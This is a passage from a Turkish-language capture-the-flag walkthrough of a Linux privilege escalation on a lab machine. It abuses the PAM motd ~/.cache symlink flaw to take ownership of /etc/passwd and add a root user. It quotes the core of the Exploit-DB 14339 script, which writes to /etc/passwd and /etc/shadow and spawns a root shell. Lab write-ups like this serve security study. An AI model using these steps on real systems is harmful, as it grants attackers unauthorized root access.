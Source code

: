 ```
chmod 600 id_rsa
```

```
ssh -i id_rsa -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa www-data@10.10.10.6
```

Ancak .cache dizini motd.legal-displayed olarak görünür:

![Pasted image 20250206190253.png](/img/user/Pasted%20image%2020250206190253.png)


#### Get Write on passwd

`~/.cache` dizinini temizleyeceğim ve yerine `/etc/sudoers` dosyasına bir sembolik bağlantı koyacağım.

![Pasted image 20250206190404.png](/img/user/Pasted%20image%2020250206190404.png)


Şimdi tekrar SSH ile giriş yapacağım ve ardından `/etc/passwd` dosyasının sahibi `www-data` olacak.

![Pasted image 20250206190551.png](/img/user/Pasted%20image%2020250206190551.png)


#### Add Root Users

Yazma erişimimle, sadece bir root kullanıcısı ekleyeceğim. İlk olarak, bir şifre hash'ine ihtiyacım var.

![Pasted image 20250206192029.png](/img/user/Pasted%20image%2020250206192029.png)

Şimdi /etc/passwd dosyasına bir kullanıcı ekleyeceğim:

Kullanıcı `asd123`, şifresi `asd123`'nin hash değeri, kullanıcı ve grup kimlikleri 0 (root için), açıklama "pwned", ana dizin `/root` ve shell `/bin/bash` olacak.

#### Shell
Artık root shell'i almak için cartel'e su gönderebiliyorum:

![Pasted image 20250206192016.png](/img/user/Pasted%20image%2020250206192016.png)


### Script

#### Analysis

[Exploid-DB script'i](https://www.exploit-db.com/exploits/14339) bir grup fonksiyon tanımlar, bazı temel kontroller yapar ve ardından bunu çalıştırır:

```
KEY="$(mktemp -u)"
key_create || { echo "[-] Failed to setup SSH key"; exit 1; }
backup ~/.cache || { echo "[-] Failed to backup ~/.cache"; bye; }
own /etc/passwd && echo "$P" >> /etc/passwd
own /etc/shadow && echo "$S" >> /etc/shadow
restore ~/.cache || { echo "[-] Failed to restore ~/.cache"; bye; }
key_remove
echo "[+] Success! Use password toor to get root"
su -c "sed -i '/toor:/d' /etc/{passwd,shadow}; chown root: /etc/{passwd,shadow}; \
  chgrp shadow /etc/shadow; nscd -i passwd >/dev/null 2>&1; bash" toor
```
